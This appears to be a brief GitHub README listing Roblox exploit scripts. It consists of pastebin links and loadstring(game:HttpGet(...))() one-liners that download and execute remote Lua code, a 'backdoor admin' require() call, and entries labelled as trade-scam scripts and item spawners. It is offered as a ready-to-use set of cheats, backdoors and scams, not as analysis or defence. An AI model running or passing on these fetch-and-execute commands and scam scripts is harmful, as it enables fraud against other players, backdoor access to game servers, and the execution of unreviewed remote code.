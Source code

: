 # dcmcmd
stalkie https://pastebin.com/szpe6X47     |
https://pastebin.com/deKynmgN     |
lalol:loadstring(game:HttpGet('https://raw.githubusercontent.com/Its-LALOL/LALOL-Hub/main/Backdoor-Scanner/script'))()     |
give backdoor admin:require(7192763922).load("Alexis19flacoo")     |
mm2 spawner:https://pastebin.com/raw/L5UHBQ60     |
trade scam:https://pastebin.com/raw/Zjbs7dB7      |
scam v2:loadstring(game:HttpGet('https://pastebin.com/raw/Vec48eZf'))()     |
mm2 spawner v2:https://pastefy.app/ofmL7PMg/raw
